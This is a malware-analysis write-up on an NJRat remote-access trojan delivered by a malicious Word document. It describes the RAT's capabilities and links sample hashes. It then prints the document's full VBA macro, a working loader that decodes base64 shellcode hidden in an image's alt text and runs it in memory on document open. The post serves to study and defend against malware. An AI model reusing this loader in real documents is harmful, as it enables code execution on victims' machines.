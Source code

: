 ```yaml
---
tags: RATs
---
```

## NJRat Injection From Malicious Document

Another RAT variant, NJRat is typically attributed to ECrime actors, it is supposedly popular with actors in the Middle East. It's primary infection vectors are phishing attacks and drive-by downloads, and like many other RATs, it has the capability to log keystrokes, access the victim's camera, steal credentials stored in browsers, open a reverse shell, upload/download files, view the victim's desktop, perform process, file, and registry manipulations, etc...

This sample was taken from the following [tweet](https://twitter.com/DmitriyMelikov/status/1696050783790207060)

[-] Maldoc [VirusTotal](https://www.virustotal.com/gui/file/12237938501141149337015c546b5e02acf3b98c1c26a84b5b4befd97d0f66d0/detection)

[-] PE Payload [VirusTotal](https://www.virustotal.com/gui/file/66702e21faa38c24f49a33112d2036d8f3b6bcfd686db47299a4dc44dedf13d8/detection)

## Maldoc

Like most other maldocs which leverage macros, the document lures the user into enabling content.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/da75e6b8-26e0-4d18-ba83-fd86a19bcdd9)

We can interrogate this macro by using OLE tools to view it.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c521ee37-e76b-4b24-b3f7-7bf4dd102d94)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/66db0700-4e12-4eba-94e4-6621bb1b38d7)

```
Attribute VB_Name = "Module1"
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal six As Long, ByVal five As Long, ByVal four As LongPtr, three As Long, ByVal two As Long, one As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal seven As Long, ByVal eight As Long, ByVal nine As Long, ByVal ten As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal eleven As LongPtr, ByVal twelve As LongPtr, ByVal thirteen As Long) As LongPtr
Public Function db(base64) As Byte()
  Dim DM As Variant, EL As Variant
  Set DM = CreateObject("Microsoft.XMLDOM")
  Set EL = DM.createElement("tmp")
  EL.DataType = "bin.base64"
  EL.Text = base64
  db = EL.NodeTypedValue
End Function

Sub autoopen()
    Dim var2() As Byte
    Dim var4 As LongPtr
    Variables = ActiveDocument.InlineShapes(1).AlternativeText
    var2 = db(Variables)
    var6 = VirtualAlloc(0, UBound(var2), &H1000, &H40)
    var4 = RtlMoveMemory(var6, VarPtr(var2(0)), UBound(var2))
    var4 = CreateThread(0, 0, var6, 0, 0, 0)

   ActiveDocument.Range.Font.Hidden = False
End Sub
```

